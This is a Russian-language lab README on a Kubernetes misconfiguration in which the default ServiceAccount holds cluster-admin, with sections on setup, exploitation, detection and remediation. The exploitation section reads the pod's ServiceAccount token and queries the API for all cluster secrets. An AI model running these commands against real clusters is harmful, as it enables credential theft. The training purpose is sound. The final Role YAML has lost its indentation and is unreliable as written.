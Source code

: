 ## Сценарий 4: Секреты в Kubernetes  

# История
Этот сценарий переносит нас в мир Kubernetes и демонстрирует, как ошибки в политиках безопасности и конфигурации кластеров могут привести к компрометации секретных данных и эскалации привилегий. Легенда: приложение состоит из нескольких микросервисов, работающих в Kubernetes. Администратор заметил, что кто-то получил доступ к секрету Kubernetes (например, паролю к базе данных, хранящемуся в объекте Secret) и, возможно, использовал его для несанкционированного доступа к базе. Подозрение пало на один из подов приложения, у которого, как выяснилось, были избыточные права в кластере. Задача – расследовать, как секрет мог быть перехвачен, обнаружить ошибочные настройки (например, чрезмерные права Service Account, неправильное разделение доступа), и устранить их, не нарушив работу приложения.

# Запуск
- Убедитесь, что у вас запущен кластер (например, Minikube):
```sh
minikube start
```

- Создайте namespace:
```sh
kubectl apply -f namespace.yaml
```

- Примените секрет:
```sh
kubectl apply -f secret.yaml
```

- Разверните приложение:
```sh
kubectl apply -f deployment.yaml
```

- Примените привязку RBAC:
```sh
kubectl apply -f rolebinding.yaml
```
Теперь изнутри пода (например, с помощью kubectl exec) можно будет получить доступ ко всем секретам кластера, используя привилегированный ServiceAccount.

# Воспользоваться уязвимостью

- Получите имя pod:
```sh
POD=$(kubectl get pod -n app-namespace -o jsonpath='{.items[0].metadata.name}')
```

- Зайдите в pod:
```sh
kubectl exec -n app-namespace -it $POD -- sh
```

- Используем встроенный token для запроса в API Kubernetes и получения любых Secret:

```sh
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk \
    -H "Authorization: Bearer $TOKEN" \
    https://kubernetes.default.svc/api/v1/secrets
```
Здесь мы видим все секреты кластера. 

- Получить конкретный:

```sh
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk \
    -H "Authorization: Bearer $TOKEN" \
    https://kubernetes.default.svc/api/v1/namespaces/app-namespace/secrets/db-secret \
    | jq
```

# Как обнаружить уязвимость
Способ 1: проверить привязки RBAC
```sh
kubectl get clusterrolebindings | grep default
```
Увидим:
```txt
default-sa-privileged   ClusterRole/cluster-admin   ServiceAccount/app-namespace/default
```

Способ 2: проверить права ServiceAccount
```sh
kubectl auth can-i get secrets --as=system:serviceaccount:app-namespace:default -n app-namespace
```
Если ответ yes, то ServiceAccount имеет права на чтение секретов.

# Как устранить уязвимость
- Шаг 1: Удалить опасную привязку
```sh
kubectl delete ClusterRoleBinding default-sa-privileged
```

- Шаг 2: Создать ограниченный ServiceAccount

File name: serviceaccount.yaml
```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: api-sa
  namespace: app-namespace
```
Применить:
```sh
kubectl apply -f serviceaccount.yaml
```

- Шаг 3: Обновить deployment

Измените в deployment.yaml:

```yaml
spec:
  template:
    spec:
      serviceAccountName: api-sa
```

И пересоздайте:
```sh
kubectl delete -f deployment.yaml
kubectl apply -f deployment.yaml
```

- Шаг 4 (опционально): Создать ограниченную Role, если нужен минимальный доступ к ConfigMap или log:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
namespace: app-namespace
name: api-read-config
rules:
- apiGroups: [""]
resources: ["configmaps"]
verbs: ["get", "list"]
```

# Почему появилась уязвимость?

Ошибка конфигурации: администратор дал default ServiceAccount полные права cluster-admin, не осознавая, что pod'ы автоматически используют этот аккаунт. В результате обычный pod получил привилегии администратора и доступ ко всем секретам.
